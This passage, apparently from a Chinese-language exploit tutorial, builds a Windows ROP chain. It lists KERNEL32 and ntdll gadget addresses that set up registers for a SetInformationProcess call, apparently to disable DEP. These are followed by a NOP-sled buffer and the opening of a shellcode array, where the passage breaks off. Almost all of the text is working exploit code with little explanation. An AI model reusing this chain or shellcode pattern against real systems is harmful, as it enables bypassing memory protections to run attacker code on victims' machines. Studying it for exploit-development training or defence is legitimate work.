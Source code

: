 ```c++
      memcpy(buf, rop_gadgets, sizeof(rop_gadgets));
    };
    return sizeof(rop_gadgets);
  }



POP EAX
RETN
MOV EAX,DWORD PTR DS:[EAX]
PUSH EAX
```

1.  首先将需要的地址全部存放在栈里，然后执行上述地址的代码。

```c++
//rop链   
unsigned int rop_gadgets[] = {
      //[---INFO:gadgets_to_set_ebp:---]
      0x7606772d,  // POP EAX // RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x760a1e20,  // ptr to &SetInformationProcess() [IAT KERNEL32.DLL] ** REBASED ** ASLR
      0x779db640,  // MOV EBP,DWORD PTR DS:[EAX] // RETN [ntdll.dll] ** REBASED ** ASLR 
      //[---INFO:gadgets_to_set_edx:---]
      0x7603e712,  // POP EAX // RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0xffffffde,  // Value to negate, will become 0x00000022
      0x76069c08,  // NEG EAX // RETN [KERNEL32.DLL] ** REBASED ** ASLR     
      0x77aacf20,  // XCHG EAX,EDX // RETN [ntdll.dll] ** REBASED ** ASLR 
      //[---INFO:gadgets_to_set_ecx:---]
      0x77a17e05,  // POP ECX // RETN [ntdll.dll] ** REBASED ** ASLR 
      0x76020212,  // &0x00000002 [KERNEL32.DLL]
      //[---INFO:gadgets_to_set_ebx:---]
      0x77a0928a,  // POP EBX // RETN [ntdll.dll] ** REBASED ** ASLR 
      0xffffffff,  // 0xffffffff-> ebx
      //[---INFO:gadgets_to_set_eax:---]
      0x76085012,  // POP EAX // RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0xfffffffc,  // Value to negate, will become 0x00000004
      0x76069c08,  // NEG EAX // RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      //[---INFO:gadgets_to_set_edi:---]
      0x77a8c77e,  // POP EDI // RETN [ntdll.dll] ** REBASED ** ASLR 
      0x77a8c77e,  // skip 4 bytes [ntdll.dll] ** REBASED ** ASLR
      //[---INFO:pushad:---]
      0x779d9519,  // PUSHAD // RETN [ntdll.dll] ** REBASED ** ASLR 
    };

//前面的填充代码
char  szBuf[] = {
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 
};

//弹窗的 shellcode 代码
char szShellcode[] = {
```